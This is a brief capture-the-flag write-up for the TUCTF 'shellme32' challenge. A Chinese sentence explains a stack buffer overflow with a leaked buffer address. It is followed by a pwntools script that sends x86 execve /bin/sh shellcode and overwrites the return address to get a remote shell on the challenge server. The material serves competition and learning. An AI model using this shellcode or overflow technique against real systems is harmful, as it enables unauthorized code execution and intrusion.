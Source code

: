 ### shellme32

> [附件](./shellme32)

给了buffer地址，可以溢出覆盖返回地址跳转到buffer执行shellcode

[Exploit script:](./shellme32)

```python
from pwn import *

p = remote('chal.tuctf.com',30506)

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

p.recvuntil('code?\n')
ret=int(p.recvline(),16)
p.sendline(shellcode_x86.ljust(40,'A')+p32(ret))
p.interactive()
```

